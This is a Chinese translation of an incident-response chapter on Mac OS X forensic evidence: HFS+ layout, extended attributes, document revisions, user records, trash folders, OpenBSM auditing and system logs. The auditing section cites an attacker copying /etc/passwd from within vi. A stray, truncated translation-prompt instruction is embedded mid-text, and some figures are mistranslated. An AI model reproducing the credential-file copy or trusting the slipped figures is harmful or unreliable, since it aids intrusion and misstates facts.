在第12章中，我们指出Windows的审查可能具有挑战性。一部分服务器，一部分工作站-执行Mac OS X系统的活动响应或审查同样是一项复杂的工作。这两个环境都值得拥有自己的取证审查独立书籍。然而，本章的目的是讨论基本的证据来源，以应用于常见的事件响应调查。自本书在2000年代初版以来，苹果系统已经在组织中变得更加普遍，超越了营销和艺术部门。随着这种扩张，取证审查工具已经显着成熟。 本章分为子部分，重点关注特定的证据来源，而不是提供Mac OS X可能的数据来源的完整指南。我们在每个部分都涵盖一些基础知识。这些主题包括以下证据来源：

- HFS+文件系统
- 核心操作系统数据
- Spotlight数据
- 系统和应用程序日志记录
- 应用程序和系统配置

与第12章一样，我们提供有关数据在支持操作系统功能方面的作用的信息，以及作为取证获取过程的一部分需要收集什么以及如何分析或解释证据。在本章结束时，我们包括一个回顾，总结了我们提供的所有Mac OS X取证工件。在几个部分中，我们提供了在活动响应期间获得数据的不同方法，而不是通过取证审查获得的数据。

我们将从Mac OS X使用的文件系统的基础知识开始。

1. **HFS+和文件系统分析**

分层文件系统（HFS+）源于1985年引入的HFS文件系统。当时驱动器相对较小，自然而然，标准被更新以允许更大，更快的驱动器以及包括其他功能。 HFS+最初于1998年发布，其开发至今仍在继续，支持任何现代文件系统所期望的功能，包括以下功能：

- 日志记录
- 硬链接
- 符号链接
- 加密
- ~8EB文件大小
- ~8EB卷大小
- 可调整大小的卷
- 属性结构

值得注意的是，本地文件系统不支持稀疏文件。这在大多数现代文件系统上很常见，允许系统有效地存储包含空空间的文件。 Mac OS X的稀疏文件实现是通过软件处理的：操作系统的虚拟文件系统驱动程序层。

我们从文件系统的布局的快速介绍开始这一部分，然后继续介绍可能在分析过程中帮助您的工件。随着我们的进展，我们展示如何使用低级文件系统实用程序访问这些结构。我们发现，常见取证审查套件的当前版本在解释HFS+文件系统的方式上略微不可预测。当被限制在简单的文件系统浏览任务时，这些套件表现良好，因此每当您需要进入细节时，请使用更专业的工具。

### **卷布局**

HFS+卷由九个结构组成：引导块，卷头，分配文件，扩展溢出文件，目录文件，属性文件，启动文件，备用卷头和保留块。分配块的大小是在创建文件系统时确定的。如果您检查新格式化的磁盘，您将看到匹配图13-1的布局。

此布局与FAT或NTFS显着不同，因此我们将快速介绍一下。有关更详细的信息，请参见Apple技术说明1150：HFS Plus卷格式。

**引导块**

卷的前1024个字节（两个512字节的分配块）保留供启动时使用，可能包含所需的信息。现代操作系统不需要引导块;因此，该空间通常为空。但是，当System Folder更改时，Mac OS Finder可能会写入此空间。

**卷头和备用卷头**

卷头始终位于卷的开头10024个字节（两个512字节的分配块）。卷头包含有关卷的信息，包括其他结构的位置。表13-1列出了卷头的内容。


首先，检测用户文本的语言。如果语言不清楚，请使用英语。然后，将用户文本翻译成中文。 如果检测到的语言是中文，则翻译文本应与原始文本完全相同。不要添加任何其他内容。 使用Markdown格式。 不要删除文本中的任何Markdown格式，如标题、项目符号或复选框 不要更改文本的结构。 用一个<translation> XML标记开始翻译文本，用一个


HFS+日期以自1904年1月1日格林威治标准时间午夜以来的秒数存储。需要注意的一点是，存储在卷标头中的卷创建日期是本地时间，而不是GMT。HFS+卷可以有四个日期：创建日期、修改日期、备份日期和检查日期。 关于日期时间戳，HFS+为每个文件存储四个日期。它存储普通文件访问、文件修改和inode更改时间。此外，记录inode出生时间，表示文件的创建日期。在实时响应期间，您可以使用stat命令访问这些时间戳。请注意，在某些情况下，您需要以提升的权限运行命令才能访问数据。

**在网络上获取** iBored** [apps.tempel.org/iBored](http://apps.tempel.org/iBored)

备用卷标头始终位于卷尾的1024字节处，占用512字节。备用卷标头是卷标头的副本，可以在卷标头损坏时进行恢复。

**分配文件**

分配文件就是它的名字——可用分配块的记录。它包含每个块的位；当未设置位时，表示该空间可供使用。

**范围溢出文件**

HFS+系统中的每个文件都有一个关联的范围列表或属于文件分叉的连续分配块。每个范围由一对数字定义：第一个是范围的分配块，第二个是分配给范围的分配块数。目录B树维护第八个范围的记录。如果一个分叉中有超过八个范围，则其余的范围存储在范围溢出文件中。分叉在“属性文件”部分中有更详细的解释。

**目录文件**

目录文件是详细描述卷中文件和文件夹层次结构的文件。卷中每个文件和文件夹都有一个唯一的目录节点ID（CNID）。对于文件夹，CNID称为文件夹或目录ID；对于文件，它是文件ID。对于每个文件夹和文件，有一个父ID，它是包含文件夹或文件的文件夹的CNID。前16个CNID保留供Apple用于卷中重要文件。

**属性文件**

属性文件是文件系统标准的可选部分。它为命名分叉定义，可以将其视为分配给文件的附加元数据，不作为文件条目本身的一部分进行存储。这个功能正是微软引入备用数据流所要实现的功能。

可以使用xattr命令检查为文件存储的扩展信息。在下面的示例中，用户最初将文件“/Users/mpepe/Mail Downloads/geocities_mpepe.pem”作为电子邮件附件接收，该附件是由kmandia发送的。这些信息是由Mac OS X的相对较新的功能捕获的，该功能以二进制属性列表格式存储了文件接收位置。如果您在下次打开由Safari检索的文件时看到一个窗口，那么Finder获取源信息的位置就在这里。

```
planck:~ mpepe$ xattr /Users/mpepe/Mail\\ Downloads/*.pem
geocities_mpepe.pem: com.apple.metadata:kMDItemWhereFroms:
0000000 62 70 6c 69 73 74 30 30 a3 01 02 03 5f 10 2f 4b |bplist00?..._./K|
0000020 65 76 69 6e 20 4d 61 6e 64 69 61 20 3c 6b 65 76 |evin Mandia <kev|
0000040 69 6e 6d 61 6e 64 69 61 40 40 6d 61 6e 64 69 61 |inmandia@@mandia|
0000060 6e 74 2e 63 6f 6d 3e 5f 10 10 52 65 3a 20 50 6c |nt.com>_..Re: Pl|
0000100 65 61 73 65 20 66 69 78 20 6d 79 20 73 69 74 65 |ease fix my site|
0000120 27 73 20 42 4c 49 4e 4b 20 74 61 67 73 5f 10 35 |'s BLINK tags_.5|
0000140 6d 65 73 73 61 67 65 3a 25 33 43 43 45 31 35 45 |message:%3CCE15E|
0000160 34 30 46 2e 31 41 41 35 25 32 35 6b 65 76 69 6e |40F.1AA5%25kevin|
0000200 6d 61 6e 64 69 61 40 6d 61 6e 64 69 61 6e 74 2e |mandia@mandiant.|
0000220 63 6f 6d 25 33 45 08 0c 3e 51 00 00 00 00 00 00 |com%3E...>Q.....|
0000240 01 01 00 00 00 00 00 00 00 04 00 00 00 00 00 00 |................|
0000260 00 00 00 00 00 00 00 00 00 89                         |..........|
```

一些 Mac OS X 服务会将数据放在命名分支中。为了了解普通文件系统映像的预期情况，请在新安装的系统上运行 xattr -lr *。这将显示所有扩展属性及其创建者。您将看到的大多数键/值对都是由 com.apple.metadata 生成的，包括 kMDItemDownloadedDate、kMDItemWhereFroms、kMDItemFinderComment 和 kMDItemUserTags。所有者 com.apple.metadata 维护多个预定义的元数据对象，但开发人员可以自由生成自己的元数据对象。请注意，创建者是一种分类，而不是特定的进程或应用程序。在这些示例中，com.apple.metadata 是来自 Safari 和 Finder 的数据。如果您在 Finder 中更改文件的标签，例如将项目设置为绿色或通过文件的“信息”窗格将其标记为“重要”，那么这些标签将存储在前面描述的命名分支中。

有关预定义元数据对象的更多信息，请在 http://developer.apple.com 上搜索标题为“MDItem Reference”的文档。

以下是在文件的“信息”窗格中设置“绿色”和“重要”标签以及注释后的 Movies 目录的示例：

```
Movies: com.apple.FinderInfo:
00000000  00 00 00 00 00 00 00 00 00 04 00 00 00 00 00 00  |................|
00000010  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  |................|
00000020
Movies: com.apple.metadata:_kMDItemUserTags:
00000000  62 70 6C 69 73 74 30 30 A2 01 02 57 47 72 65 65  |bplist00...WGree|
00000010  6E 0A 32 59 49 6D 70 6F 72 74 61 6E 74 08 0B 13  |n.2YImportant...|
00000020  00 00 00 00 00 00 01 01 00 00 00 00 00 00 00 03  |................|
00000030  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 1D  |................|
00000040
Movies: com.apple.metadata:kMDItemFinderComment:
00000000  62 70 6C 69 73 74 30 30 5E 54 68 69 73 20 69 73  |bplist00^This is|
00000010  20 61 20 74 65 73 74 08 00 00 00 00 00 00 01 01  | a test.........|
00000020  00 00 00 00 00 00 00 01 00 00 00 00 00 00 00 00  |................|
00000030  00 00 00 00 00 00 00 17                          |........|
00000038
```

**启动文件**

启动文件用于在没有内置（ROM）支持HFS+的系统启动时存储所需信息。Mac OS X不使用启动文件。在大多数情况下，启动文件为零字节。

### **文件系统服务**

苹果公司开发并采用了一些支持高级功能的技术。两个主要功能可能包含相关信息：Spotlight（元数据索引器）和Managed Storage（负责修订控制的进程）。目前，审查这些来源的数据的取证工具受到限制；然而，我们预计这种情况会随着时间的推移而改变。

**Spotlight**

Spotlight是Mac OS X中的元数据索引和搜索服务。创建新文件时，元数据框架会摄取文件并基于当时可用的插件进行索引。Mac OS X 10.9的标准安装包含大约23个导入器，可以解析各种文件格式，从应用程序包到邮件。安装其他软件后，可以加载其他导入器，从而扩展元数据框架的识别其他格式的能力。某些类型的导入器仅导入元数据。其他导入器将索引传入文件中的所有文本。后者的一个例子是mail.mdimporter导入插件。在运行中的Mac OS X系统上，使用搜索字符串执行mdfind。如果字符串在已经索引了完整内容的文件中，mdfind应用程序将返回匹配文件的完整路径。请注意，对于非本地文件系统（例如可移动介质和网络共享），索引存储在数据本身中。如果卷没有连接，mdfind搜索将不会返回来自断开的源的数据。

当然，我们的问题是是否可以利用元数据框架存储或留下的任何工件。清理已删除文件的过时数据很快。在我们的测试中，对应于已删除文件的索引中的节点立即被删除。不幸的是，目前没有可靠解析从驱动器映像中提取的Spotlight索引程序存储的数据的工具。目前，Spotlight维护的数据仅在实时响应环境中有用。

**Managed Storage**

在Mac OS X Lion（10.7）中，苹果公司为开发人员提供了一个新框架，允许为Mac OS X Lion及其之后版本创建的应用程序采用连续保存模型，而不是传统的用户请求保存操作。副作用是随着文件修改，在文件系统上留下了大量数据。管理此功能的守护程序称为revisiond，并将数据维护在“隐藏”目录/.DocumentRevisions-V100下的卷中。

在该目录下，服务将文件数据存储在PerUID中，将数据库存储在db-V1中。要查看版本控制系统中存储的文件，请打开SQLite数据库/.DocumentRevisions-V100/db-V1/db.sqlite。数据库的四个表跟踪文件、每个文件的保留修订和存储位置。请注意，如果您要提取文件进行审查，则还需要复制以“-wal”结尾的文件，它是包含相关数据的预写日志文件。

例如，让我们检查一个活动的db.sqlite文件的内容。该数据库如图13-3所示。我们将在本章后面有更多关于审查SQLite数据库的信息。为了访问这个数据库，我们通过sudo bash启动了一个root shell，并将文件复制到一个临时目录（~/book_tmp）中，以防止多个进程打开数据库引起的竞态条件。

**从Web上获取它**

我们使用一个名为SQLite Manager的Firefox插件快速审查SQLite数据库。在附加组件菜单中搜索此应用程序。

所选文件Indicators-network.txt的file_last_seen日期为1352657871（或2012年11月11日星期日18:17:51 GMT），file_storage_id为47。我们使用该存储ID引用“generations”表中的记录。图13-4显示了对该文件进行的14次修订。第一个条目显示一个时间戳等于原始创建日期。第二个条目显示它在2012年11月21日星期三19:31:12 GMT进行了编辑。





注意：

请注意Mac OS X是基于BSD的，因此当您遇到时间戳时，它将是自1970年1月1日00:00:00 UTC（Unix纪元）以来的秒数。您可以使用Unix命令date，带选项-j -u -r（秒数）进行转换。请注意，如果您更喜欢使用在线日期计算器，则有许多可供选择。

如果我们深入研究记录本身，则可以检查存储的修订版本的文件名，如图13-5中的generation_path字段所示。然后，我们可以进入文件系统并查看00E16F9F-81B7-4E6F-A267-616817DC890D.txt，以查看当时的状态。因为这是一个简单的文本文件，如果必要的话，我们也可以使用diff命令比较修订版本。正如您所预期的那样，generation_add_date与修订版本的HFS+文件记录匹配。如果日期操作是调查中的问题，则这可以是另一个数据点。


### **核心操作系统数据**

大多数取证分析师花费大量时间检查各种版本的Windows操作系统。转换到Mac OS X可能会有点令人迷惑。在HFS+文件系统上搜索证据的位置在哪里？根据用户正在使用的权限，答案可能是“任何地方”。让我们首先解决常见的使用模式以及系统如何为大多数用户配置的问题。

#### **文件系统布局**

Apple为数据分类定义了四个“域”。这四个域由一组路径、资源和访问控件定义。本地域由所有系统用户共享的应用程序和配置组成。用户需要管理员权限才能修改此域中的数据。以下目录属于本地域：

- /Applications
- /Developer
- /Library

第二个域，系统，包含由Apple安装的数据以及一些专门的低级实用程序。以下目录中的文件需要管理员权限才能修改。系统域中包含所有传统的Unix结构：/bin、/usr、/dev、/etc等。由于系统日志的位置，这个域通常在入侵调查中最有用。/System目录被认为是系统域。

第三个域，网络，是存储将在系统和用户网络中共享的应用程序和数据的地方。实际上，这个域很少有数据。它位于/Network目录下。

第四个域，用户，是适用于大多数其他调查的数据来源。用户域包含用户主目录和共享目录。通常，所有用户创建的内容和配置都将在/Users顶级目录下找到。

正如我们之前所述，如果用户拥有足够的权限，用户生成的文件和应用程序可能会破坏这个模型，特别是如果用户是Unix专家并安装了其他控制台应用程序或MacPorts包管理器。顺便说一句，我们强烈建议您在Mac检查工作站上安装MacPorts。它提供了一种从BSD端口树中获取大量包的简单方法。请注意，在您的环境中获取工作端口树的最简单方法是在命令行上运行gcc。系统将识别到工具不存在，并启动安装程序。在找到可以在检查过程中有用的工具和实用程序时，请检查是否有人在MacPorts中创建了一个包，而不是从源代码编译。如果是这样，通常会节省一些时间。

**获取网址：MacPorts** [www.macports.org](http://www.macports.org/)

注意：

关于Mac OS X文件环境的其他信息可以在Apple Mac Developer网站上找到。多年来，我们注意到信息在开发者指南的不同部分之间移动。在http://developer .apple.com上搜索标题为“OS X文件系统编程指南”的文档。

以下小节详细介绍了三个主要域——本地、系统和用户——以及您将在每个域中找到的数据的性质。我们将在下一节讨论特定工件的恢复和分析。请注意，由于网络域很少存在并且与本地域类似，我们将省略网络域。

#### **本地域**

在本地域中，有三个您应该熟悉的目录。第一个是/Applications。这是几乎所有应用程序（由您或应用商店）安装的目录。我们将很快介绍如何确定安装了什么软件以及何时安装的。让我们先稍微讲一下应用程序包。

应用程序包是按标准格式和扩展名的目录结构。它们包含应用程序运行所需的几乎所有内容，包括可执行代码、图形资源、配置文件、库和辅助应用程序和脚本。它们提供了一种有趣的分发应用程序的方式，因为Finder将结构视为具有其界面的单个文件，除非明确请求其他方式。最常见的应用程序包扩展名是

- **.app** 可启动应用程序
- **.framework** 动态共享库及其资源
- **.plugin** 其他应用程序的帮助程序或驱动程序
- **.kext** 可动态加载的内核模块

如果您打开一个应用程序包，可以通过从Finder选择Show Package Contents或通过终端遍历目录来找到Contents文件夹下的几个子目录。这些子目录MacOS和（可选）Resources、Library、Frameworks、PlugIns和SharedSupport包含之前列出的项目。开发人员可以在这些目录中放置任何内容，它们经常包含有用的工具和文件。例如，在VMWare Fusion包的Library文件夹中，您将找到管理VMWare hypervisor的所有命令行实用程序。图13-6显示了Mac OS X附带的Console应用程序的示例的应用程序包。可以通过控件单击文件并从上下文菜单中选择Show Package Contents来访问它。

您可能已经注意到图中的Console.help文件是一个Help Bundle。事实上，这是Console应用程序包中的一个包。我们也可以查看包的内容，并观察相同的目录结构。

为什么所有这些都很重要？包的内容可能包含其他相关的元数据。时间和日期戳可以告诉您何时安装了应用程序。其他“帮助”程序可能会为您提供有关应用程序功能的线索。这也是隐藏数据的好地方。

继续我们的第一个域，本地，还有两个目录与应用程序一起分组。Developer是XCode使用的路径，XCode是苹果的开发环境。直到最近，所有开发工具、SDK、文档和调试工具都存储在该目录中，位于驱动器根目录上。在XCode的后续版本中，工具位置已更改；但是，您可能仍然会偶尔看到这个目录。


在本地域中，我们涵盖的最终目录是 /Library。当您检查文件系统时，您会注意到在 /Library 下有几个目录在多个位置中出现。通常，根据范围，应用程序以类似的方式使用这些目录。这些目录包含操作系统的应用程序设置（/System/Library），在用户之间共享的设置（/Library）以及用户特定的设置（/Users/*username*/Library）。在确定特定应用程序的配置方式时，请记住这一点。以下表中详细说明的子目录通常包含相关信息。

| 路径                                         | 描述                                                         |
| -------------------------------------------- | ------------------------------------------------------------ |
| /Library/Application Support                 |                                                              |
| /User/username/Library/Application Support   | 此目录用于应用程序存储设置、缓存、许可证信息和开发人员需要的任何其他内容。这包括由苹果开发的应用程序，尽管有些不一致。例如，在系统 Library 目录中，大多数苹果实用程序将全局资源存储在 Library/Apple/applicationname 中。CrashReporter、Apple Pro Applications（例如 Final Cut）和 App Store 是例外。 |
| /Library/Caches /System/Library/Caches       |                                                              |
| /User/username/Library/Caches                | 此目录用于应用程序存储临时数据。Caches 目录保存了大量可能相关的数据。我们在第14章中涵盖了一些使用此目录的应用程序。 |
| /Library/Frameworks                          |                                                              |
| /System/Library/Frameworks                   | 此目录用于需要存储驱动程序或辅助应用程序的应用程序。通常，除非有可疑的恶意应用程序或用户已安装与您的调查相关的特殊应用程序，否则此目录不会包含重要信息。 |
| /Library/Keychains /System/Library/Keychains |                                                              |
| /User/username/Library/Keychains             | 此目录存储用户 Keychain 的数据文件。许多应用程序将密码和证书放在此服务的数据存储中。但是，需要用户的密码才能打开它。 |
| /Library/Logs                                |                                                              |
| /User/username/Library/Logs                  | 此目录包含各种应用程序日志。在此域中，这个目录是最重要的之一。 |
| /Library/Preferences                         |                                                              |
| /User/username/Library/Preferences           | 如果应用程序允许系统 API 管理它们，此目录将存储应用程序首选项。通常，数据文件采用属性列表（plist）格式，这使得检查非常简单。这个目录可以（非常）松散地与 Windows 系统中的 Software hive 相比较。 |
| /Library/Receipts                            |                                                              |
| /User/username/Library/Receipts              | 添加到系统的应用程序时，/Library/Receipts 中的文件会更新。名为 InstallHistory.plist 的 plist 包含有关通过操作系统的安装程序或更新框架安装的每个应用程序的信息。 |
| /Library/WebServer                           | 安装在每个 Mac OS X 副本上的 Apache 在用户启动 Web 共享时启动。Apache 的文档根目录是 /Library 中的此文件夹。 |

还有许多其他子目录需要注意，特别是当您开始分析系统的启动任务时。当我们给出更具体的例子来说明调查员在执行事件响应时感兴趣的内容时，我们将回顾这些子目录。

注意：

应用程序可以根据需要自由使用缓存和应用程序支持目录；然而，有两种非常常见的文件类型几乎每个应用程序都会使用。具体来说，您会发现属性列表（plists）和SQLite数据库非常普遍。虽然有许多选项可供选择，但我们经常使用一些实用工具来查看这两种格式的数据。我们使用Firefox插件SQLite Manager来查看SQLite数据库，使用Mac OS X上的plutil和Windows上的plist Explorer来检查plist文件。

**系统域**

系统域乍看之下可能是一个不那么令人兴奋的驱动器区域。实际上，由于它包括所有传统的Unix路径以及Mac OS X应用程序日志，因此在某些情况下，调查可能仅基于该域的发现。在 /System 目录下，您将找到一个类似于先前讨论的 /Library 目录的结构。在这里，您将找到许多应用程序可以在Mac OS X系统上保持持久性的位置。我们将在后面的部分中介绍这些位置；然而，值得在这里注意的是，用户必须具有管理员级别的权限才能在系统域中创建或修改文件。

系统域中包含许多很好的证据来源。传统的Unix应用程序二进制和库目录包含的数据通常在不同的安装之间没有区别，假设Mac OS X版本相匹配。唯一的例外是，如果用户是高级用户，要么手动编译实用程序，要么使用MacPorts或Fink发行版，通常放置在 /opt 目录中。除了其他众多物证之外，您可以在 /var/log 中找到系统日志，在 /var/db 中找到许多数据库，在CUPS日志目录中找到打印数据的记录，并且还有系统休眠映像。

**用户域**

用户域是大多数用户创建的内容所在的位置。在 /Users 目录下，您将找到每个个人帐户的目录，以及一个共享目录。在创建新用户帐户时，用户的主目录将被填充为表13-2中列出的目录。

根据我们的经验，您在检查用户域时所花费的大部分时间将在 Library 和 Documents 目录中进行。

在本章的后续部分中，我们将探讨一些具体的证据来源，并介绍执行分析的方法。其中许多来源在多种类型的调查中都非常有用，不仅限于计算机入侵。


#### **用户和服务配置**

自从首次发布Mac OS X以来，存储和跟踪用户帐户的方法已经成熟。在Mac OS X 10.5之前，操作系统继承了NeXTstep的用户管理。这个方案，NetInfo，是Sun的NIS+用户管理和DNS的有趣组合。不幸的是，这个守护进程的设计方式引起了许多问题，随着时间的推移，苹果公司转向使用LDAP进行企业管理和使用Directory Services进行本地用户管理。当检查静态驱动器时，如果您通常收集授权用户列表，这可能是您首先注意到的事情。Directory Services不会将用户帐户信息存储在传统的Unix文件（如/etc/passwd和/etc/groups）中。相反，本地系统的数据位于SQLite数据库和二进制格式的属性列表中。

**证据**

Directory Service将其数据存储在/private/var/db/dslocal中。在此目录中，本地系统的数据库（或节点）位于nodes/Default中。当您查看文件时，您会注意到与许多Unix环境配置选项对应的目录和plist文件。除了用户帐户和组，您还会发现Directory Services管理其他几个配置项：

- **aliases** 内部邮件的本地路由
- **computers** 本地系统的Kerberos信息
- **config** Kerberos和共享信息
- **network** 回环网络信息
- **sharepoints** 通过SMB或AFP与其他系统共享的目录

还驻留在/private/var/db/dslocal目录结构中的是一个名为sqlindex的SQLite数据库。该数据库维护目录结构中plist文件的创建和修改时间，以及数据之间的关系的附加信息。

定期的CRON作业备份整个目录。备份文件位于/private/var/db/dslocal-backup.xar，是一个普通的gzip tar文件。

**分析**

Directory Services数据将显示成像时的服务配置，并有助于确定某些配置事件发生的时间。在进行IR时，我们可能需要确定特定共享是何时创建的，或者某个帐户是否存在以及其特权级别。Directory Services中的每个数据源都可能产生重要信息。

**用户帐户** 在“users”节点中，每个用户帐户都有一个二进制plist文件表示。plist文件通常包含表13-3中列出的属性。请注意，特定属性的顺序或存在取决于每个系统的配置。


我们检查的最有用的字段是jpegphoto、picture、realname、name、home、generateduid和uid。此外，我们可以在sqlindex中检查rec:users表。filetime字段可以帮助您确定安装的原始日期和最后一次修改用户记录的时间。与入侵调查相关的照片字段并不是非常有趣；然而，令人惊讶的是，使用内置摄像头拍摄的照片经常用作账户图片。

**共享点** 共享点节点包含每个共享目录的二进制属性列表。当用户为目录启用文件共享时，系统会创建一个包含13个属性的二进制属性列表，其中包括AFP、SMB和FTP的共享状态，每个服务的共享点名称以及共享路径。示例显示在图13-7中。此示例显示了名为Internal Documents的共享的属性，路径为/Volumes/HR/Payroll/Internal Documents。


与“用户”节点一样，您可以通过检查sqlindex数据库文件来确定sharepoint的创建时间。图13-8显示了创建sharepoint时的条目。在这种情况下，文件时间为1382822698（2013年10月26日星期六21:24:58 GMT）。

#### **垃圾和已删除的文件**

与Linux和Windows一样，通过图形用户界面删除的文件会在永久删除之前暂时保留。Mac OS X将标记为删除的文件存储在三个不同的位置，取决于原始文件的位置和执行删除操作的用户：

- **/.Trashes** 卷级别的垃圾箱文件夹
- **~/.Trash** 用户特定的垃圾箱文件夹
- **/private/var/root/.Trash** 根用户的垃圾箱文件夹

**证据**

在可移动存储卷（例如USB驱动器）上，当挂载卷时，会创建一个卷级别的垃圾箱文件夹（例如/Volumes/USBDRIVE/.Trashes）。每当用户从该卷中删除文件时，Mac OS X都会在卷特定的垃圾箱文件夹中为该用户ID创建一个目录（例如/Volumes/USBDRIVE/.Trashes/501，其中501是用户ID）。被该用户ID删除的每个文件的副本都存储在该垃圾箱文件夹中。

#### **系统审计、数据库和日志**

自其早期以来，苹果的主要设计原则之一就是确保其产品的环境和生态系统始终保持良好的用户体验。无论是好是坏，这一原则都推动了能够使我们受益的软件设计决策。许多有助于确保事情“正常运行”的守护程序都会维护详细的日志和数据库。有许多出色的取证证据来源，足以值得一本专门讨论的书。这些数据源中的许多在用户活动可以为您的调查提供重要发现的事件中更有帮助，而在计算机入侵事件中则不太有用。基于这两点，本节介绍您可以检查的数据量和性质。

**系统审计和数据库**

Mac OS X拥有一个强大的审计系统，称为开源基本安全模块（OpenBSM）。该系统可以记录文件访问、入站和出站网络连接以及应用程序及其命令行选项的执行情况。不幸的是，默认配置不会保留详细信息，在应急响应中的用处有限。要查看非ASCII的OpenBSM日志文件，请使用praudit命令。OpenBSM是一个跨平台套件，因此您可以从Mac OS X驱动器的取证镜像中导出数据，并在Linux上使用praudit，如果您更熟悉该环境。另一个选项是使用名为Audit Explorer的本地Mac OS X工具。在App Store中提供的Audit Explorer将处理OpenBSM输出文件，方便进行检查。

OpenBSM的配置文件位于/etc/security。主要文件audit_control指定日志数据存储在/private/var/audit中。在实时响应期间，您将希望保留此整个目录的内容。每个日志文件的名称都是包含事件的时间段。

注意：

有关OpenBSM项目的更多信息，请访问http://www.trustedbsd.org/openbsm.html。

您可以在事故发生之前通过auditd改进记录的数据的准确性。在auditd配置文件/etc/security/audit_control中，进行以下更改并重新启动：

```
     flags:all
     naflags:lo,aa,pc,nt
     policy:cnt,argv
     filesz:1G
     expire-after:10G
```

这将记录所有用户的所有内容，以及登录/注销、管理事件、进程和对不能归因于特定用户的进程的网络活动。如果需要更多详细信息，您可以指示它保留每个进程的环境变量。请注意，这会增加日志文件的大小。 打开这些选项最具说服力的原因可以用图13-9来概括。这是审计资源管理器显示了一个短期安全外壳会话中运行的每个命令。当激活完整审计时，简化了对攻击者活动的重建。 甚至捕获到了使用旧的“在vi内部运行”技巧执行的活动。在图13-10中，使用vi的!命令运行了命令cp /etc/passwd ~。请注意，父进程ID是vim。 Mac OS X有大量在后台运行的“辅助服务”。这些服务通过跟踪事件或常见数据为系统和面向用户的应用程序提供支持。大多数辅助应用程序通过SQLite数据库文件或属性列表格式维护状态。任何时刻，运行的系统服务数量可能超过40个独立进程。其中的一个子集对我们很有趣，因为它们要么执行主要功能，要么为其他应用程序提供“辅助服务”。以下是一些辅助服务的示例：


- **airportd** 管理无线网络连接。
- **aosnotifyd** Find My Mac 服务的守护程序。
- **pboard** 系统剪贴板。管理复制/剪切/粘贴操作。
- **sharingd** 管理与其他系统共享数据和驱动。
- **spindump_agent** 帮助 Spindump 监视和报告应用程序错误或挂起。

其中一些服务保留可根据所进行的调查类型进行审查的数据。以 airportd 保留的信息为例。

许多服务，包括 airportd，在应用程序沙盒中运行，因此需要沙盒配置文件才能运行。我们可以使用此信息来查找应用程序使用的各种数据存储位置。苹果将应用程序沙盒配置文件存储在 /usr/share/sandbox。以下是 airportd 配置的摘录：

```jsx
(allow file*
(literal "/dev/io8log")
(literal "/dev/io8logmt")
(literal "/dev/io8logtemp")
(regex #"^/dev/pf")
(regex #"^/dev/bpf")
(regex #"^/Library/Preferences/SystemConfiguration/preferences\\.plist")
**(regex #"^/Library/Preferences/SystemConfiguration/com\\**
  .apple\\.airport\\.preferences\\.plist")
(regex #"^/Library/Preferences/SystemConfiguration/com\\
             .apple\\.wifi\\.message-tracer\\.plist")
)
```

让我们使用plutil命令来查看/Library/Preferences/SystemConfiguration/com.apple.airport.preferences.plist文件的内容：

```
bash-3.2# plutil -p
/Library/Preferences/SystemConfiguration/com.apple.airport.preferences.plist
```

输出结果显示该文件是airportd存储访问点和连接的网络列表的位置。我们在下一节中提供输出结果的示例，作为一个场景的一部分。

#### **系统和应用程序日志**

与Mac OS X中的大多数Unix派生功能一样，Apple在执行系统和应用程序日志记录时有所改进。在对Mac OS X系统进行检查（或实时响应）时，您需要了解可能找到证据的几个位置。

在Mac OS X工作站上，您可以在接下来列出的三个主要位置中找到日志和大量的取证工件（请注意，/var/log是文件系统上的一个符号链接，指向/private/var/log）：

- /private/var/log
- /Library/Logs
- /Users/*用户名*/Library/Logs
- /Users/*用户名*

列表中的最后一项是由控制台应用程序维护的“隐藏”日志文件。用户的主目录包含shell历史记录、MySQL历史记录和其他会话日志数据。通常，这些日志以纯文本形式存在，可以通过cat、less、grep、文本编辑器、Highlighter或导入到诸如Sawmill或LogStash等日志管理工具中进行分析。当日志文件以二进制格式存储时，例如通过Apple System Log（ASL）或auditd，您需要使用一组工具将其转换为可读形式。我们将在接下来的“分析”部分中介绍这种转换过程。

**证据**

syslog和Apple System Log（ASL）守护程序是Mac OS X上大部分日志数据的生成进程。最大数量的日志数据可以在/private/var/log目录中找到，因此我们将从这里开始。

如果您熟悉现代Linux发行版中的日志记录功能，那么这些文件中的许多内容将会立即熟悉。当然，您也会找到一些特定于Mac OS X的项目。在对Unix系统进行检查时，需要首先查看syslog配置文件。该配置文件定义了来自syslog兼容守护程序的消息被放置或重定向到的位置。Apple添加了一个额外的层，称为Apple System Log（ASL）服务。ASL配置文件包含了一些在/etc/syslog.conf中传统定义的条目。在下面的默认配置文件中，您可以看到名为system.log的文件存储了大部分消息。特别感兴趣的是名为auth和authpriv的两个设施。这两个设施包含了系统上的所有登录事件的消息。

```
##
# configuration file for syslogd and aslmanager
##
# authpriv messages are root/admin readable
? [= Facility authpriv] access 0 80
# remoteauth critical, alert, and emergency messages are root/admin readable
? [= Facility remoteauth] [<= Level critical] access 0 80
# broadcast emergency messages
? [= Level emergency] broadcast
# save kernel [PID 0] and launchd [PID 1] messages
? [<= PID 1] store
# ignore "internal" facility
? [= Facility internal] ignore
# save everything from emergency to notice
? [<= Level notice] store
# Rules for /var/log/system.log
> system.log mode=0640 format=bsd rotate=seq compress file_max=5M all_max=50M
? [= Sender kernel] file system.log
? [<= Level notice] file system.log
? [= Facility auth] [<= Level info] file system.log
? [= Facility authpriv] [<= Level info] file system.log
# Facility com.apple.alf.logging gets saved in appfirewall.log
? [= Facility com.apple.alf.logging] file appfirewall.log file_max=5M all_max=50M
```

ASL提供了额外的日志功能给Mac OS X应用程序，可以更高效地存储和管理日志。正常的syslog消息遵循简单的结构：

- 消息到达syslog守护进程时
- 消息的来源
- 消息的严重性和类型
- 消息本身

ASL在可以处理的方面更加灵活。当开发人员通过ASL发送日志时，除了syslog格式外，他们还可以指定许多自定义键/值对。可以链接到外部文件，指定应接收该消息的用户或组ID，并设置消息的过期时间。在最近的文档中，苹果建议开发人员在消息文本中开始使用标签，以帮助日志搜索。建议使用的标签包括#System，#Attention，#Security和#Error。这是与旧的syslog相比的重大更新。

ASL将数据存储在目录/private/var/log/asl中。这些文件不是纯文本，因此必须使用syslog来显示其内容。要查看单个文件，请使用以下命令。您可以使用-d标志而不是-f来转码整个目录。

```
planck:~ user$ sudo syslog -f /private/var/log/asl/<file>.asl
```

ASL日志的文件名有三种定义的格式。第一种存储特定用户或组的事件。文件名的第一部分是日期。第二部分表示事件的来源。以下是一个示例：

- **2013.11.09.U501.asl**此文件包含2013年11月9日UID 501的事件。
